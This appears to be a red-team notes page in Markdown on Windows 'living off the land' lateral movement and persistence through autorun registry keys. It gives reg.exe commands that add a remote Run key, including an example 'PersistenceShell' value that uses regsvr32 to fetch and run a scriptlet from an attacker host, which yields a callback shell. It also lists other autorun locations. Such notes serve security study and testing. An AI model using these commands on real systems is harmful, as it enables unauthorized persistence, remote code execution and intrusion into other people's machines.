 # Living off the Land

Search Tag(s): #lateral-movement #registry #windows

## These are the following registry path to create registry values to spawn a callback shell

TODO: Fill the missing info

```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run

HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## Manual

### Registry key syntax

```
C:\> reg.exe add \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /t reg_sz /d <commands>

C:\> reg.exe query \\<IP>\hklm\software\microsoft\windows\currentversion\run

C:\> reg.exe delete \\<IP>\hklm\software\microsoft\windows\currentversion\run /v <registry_value> /f
```

### Here's the following example

```
C:\> reg.exe add \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /t REG_SZ /d "regsvr32 /s /n /u /i:http://<attacker_IP>/shell.sct scrobj.dll"

C:\> reg.exe query \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run

C:\> reg.exe delete \\<IP>\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v PersistenceShell /f
```

---
## References

### Backlinks

- [[Registry Key References]]

### LOFLCAB

- [LOFLCAB: `reg.exe`](https://lofl-project.github.io/loflcab/Binaries/reg/)

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)